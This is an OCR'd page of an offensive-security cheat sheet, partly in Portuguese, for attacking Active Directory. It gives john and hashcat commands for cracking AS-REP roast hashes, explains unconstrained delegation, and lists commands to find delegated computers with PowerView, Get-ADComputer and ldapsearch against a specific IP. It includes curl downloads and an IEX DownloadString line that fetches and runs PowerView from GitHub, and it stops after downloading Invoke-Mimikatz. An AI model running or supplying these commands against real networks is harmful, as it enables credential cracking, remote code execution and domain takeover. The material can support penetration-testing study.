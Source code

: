 ##### KERBEROASTING-ASREP - CRACK PASSWORD
```
john hashes.txt --wordlist=wordlist.txt
john --format=krb5asrep hashes.txt --wordlist=wordlist.txt
john --show hashes.txt
rm  /root/.john/john.pot
```
HASHCAT - TIPO23 (17 ou 19)
```
hashcat -m 18200 -a 0 hashes.txt wordlist.txt
hashcat -m 18200 -a 0 hashes.txt wordlist.txt -o quebradas.txt
hashcat -m 18200 -a 0 hashes.txt wordlist.txt --show
hashcat -m 18200 -a 0 hashes.txt wordlist.txt --potfile-disable
```
## UNCONSTRAINED DELEGATION - MIMIKATZ
Unconstrained delegation is a privilege that can be assigned to users or computers, this almost always happens on computers with services such as ISS and MSSQL. These services usually require access to a backend database on behalf of the authenticated user. When a user authenticates on a computer with Kerberos unrestricted delegation privilege enabled, the user's authenticated TGT ticket is stored in that computer's memory. If you have administrator access to this server, it is possible to dump all TGT tickets from memory.
##### UNCONSTRAINED DELEGATION MIMIKATZ - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/Microsoft.ActiveDirectory.Management.dll -Outfile Microsoft.ActiveDirectory.Management.dll
import-module .\Microsoft.ActiveDirectory.Management.dll
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1  -Outfile PowerView.ps1
import-module .\PowerView.ps1
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1")
```
##### UNCONSTRAINED DELEGATION MIMIKATZ - FIND COMPUTERS WITH UNCONSTRAINED DELEGATION (POWERVIEW)
PROCURE POR CONTAS DE COMPUTADOR COM UNCONSTRAINED DELEGATION
```
Get-NetComputer -UnConstrained
Get-NetComputer -UnConstrained | select samaccountname       
```
```
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description | select samaccountname 
```
```
$LDAPSEARCH = New-Object System.DirectoryServices.DirectorySearcher
$LDAPSEARCH.Filter = "(&(objectCategory=computer)(objectClass=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))"
$LDAPSEARCH.FindAll()
```
```
ldapsearch -LLL -x -h 54.189.219.43   -D "vegeta@tech.local" -W -b "DC=tech,DC=local" "(&(objectCategory=computer)(objectClass=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))"
ldapsearch -LLL -x -h 54.189.219.43   -D "regularuser@tech.local" -W -b "DC=tech,DC=local" "(&(objectCategory=computer)(objectClass=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" | grep sAMAccountName
```
##### UNCONSTRAINED DELEGATION MIMIKATZ - DEPOIS DE COMPROMETER O SERVIDOR COM UD, EXPORTAR OS TICKETS KERBEROS.
```
curl https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1 -Outfile Invoke-Mimikatz.ps1
```